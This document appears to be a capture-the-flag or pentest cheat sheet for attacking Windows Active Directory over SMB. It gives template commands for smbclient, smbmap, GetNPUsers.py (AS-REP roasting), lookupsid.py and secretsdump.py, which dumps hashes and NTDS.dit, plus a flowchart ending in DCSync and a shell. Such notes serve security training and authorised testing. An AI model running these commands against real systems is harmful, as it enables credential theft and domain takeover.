 ### Tools

`smbclient` is a client that can 'talk' to an SMB/CIFS server. It offers an interface similar to that of the ftp program. Operations include things like getting files from the server to the local machine, putting files from the local machine to the server, retrieving directory information from the server and so on.

```tsx
smbclient -L \\\\{IP_ADDESS}
smbclient \\\\{IP_ADDRESS}\\{WORKGROUP}
```

`smbmap` enumerates samba share drives across an entire domain, lists share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands

```tsx
smbmap -H {IP_ADDRESS/HOST} -u {USERNAME} -p {PASSWORD}
```

`GetNPUsers.py` list and get TGTs for those users that have the property '*Do not require Kerberos preauthentication*' set (UF_DONT_REQUIRE_PREAUTH)

```tsx
python GetNPUsers.py {DOMAIN} -dc-ip {IP_ADDRESS} -usersfile {user-wordlist}
```

`lookupsid.py` performs bruteforcing of Windows SID’s to identify users/groups on the remote target

```bash
python lookupsid.py {DOMAIN}/{USERNAME}:{PASSWORD}@{IP_ADDRESS}
#or
python lookupsid.py {USERNAME}@{IP_ADDRESS} #with USERNAME is anonymous
```

`secretsdump.py` perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include: reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit

```tsx
python secretsdump.py {DOMAIN}/{USERNAME}:{PASSWORD}@{IP_ADDRESS}
#or
python secretsdump.py {USERNAME}@{IP_ADDRESS}
```

### Roadmap

```mermaid
flowchart TD
    A[Nmap Scan] --> B(SMB Enum)
    B --> C(User's creds)
    C --> D{Is admin?}
    D --> |YES| X(Establish Shell)
    D --> |NO| E(Normal User)
    E --> F{Have permission?}
		F --> |YES| X
    F --> |NO| G(AS-REP Roasting)
		G --> H(Kerberoasting)
		H --> I(DCSync attack)
		I --> C
    X --> Z[Get flag]
```
